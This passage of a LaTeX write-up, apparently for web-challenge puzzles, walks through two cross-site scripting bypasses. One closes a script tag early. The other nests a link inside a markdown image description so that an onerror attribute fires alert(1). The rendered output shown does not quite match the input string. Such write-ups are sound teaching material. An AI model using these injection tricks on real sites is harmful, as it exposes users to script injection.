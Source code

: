 \documentclass{article}
\begin{document}
\begin{verbatim}
	function escape(s) {
	    s = JSON.stringify(s);
	    return '<script>console.log(' + s + ');</script>';
	}
\end{verbatim}

Instead, we are able to close the script tag and open a new one, then comment out the remaining code. Like this.

\begin{verbatim}
	</script><script>alert(1)//
\end{verbatim}

\section{Markdown}

Now we have a more complex function. The first statement replaces \verb`<` and \verb`"` with \verb`&lt;` and \verb`&quot;` respectively. Then the next two statements simply perform some markdown processing on links and images.

\begin{verbatim}
	function escape(s) {
	    var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
	    // URLs
	    text = text.replace(/(http:\/\/\S+)/g,
	        '<a href="$1">$1</a>');
	    // [[img123|Description]]
	    text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g,
		    '<img alt="$2" src="$1.gif">');
	    return text;
	}
\end{verbatim}

The trick here was to put a link inside an image description, so each of their double quotes would cancel each other out. Suppose we input the following string.

\begin{verbatim}
	[[_|http://onerror='alert(1)']]
\end{verbatim}

This string gets converted into the following HTML code.

\begin{verbatim}
	<img alt="<a href="http://onerror=alert(1)//" src="_.gif">">
	http://onerror=alert(1)//]]</a>
\end{verbatim}

When the browser attempts to render this, it first sees an image tag, with an \verb`alt` attribute with the value \verb`<a href=`, since the quote immediately following the \verb`=` closes the first one. Then the browser detects an attribute \verb`http:` with no value, and then \verb`onerror=alert(1)//"` becomes another attribute of this image tag in the form of \verb`onerror="alert(1)//""`. The trailing double quote becomes part of the JavaScript, but it is commented out to have no effect. Then the remaining text simply becomes a text node.
\end{document}
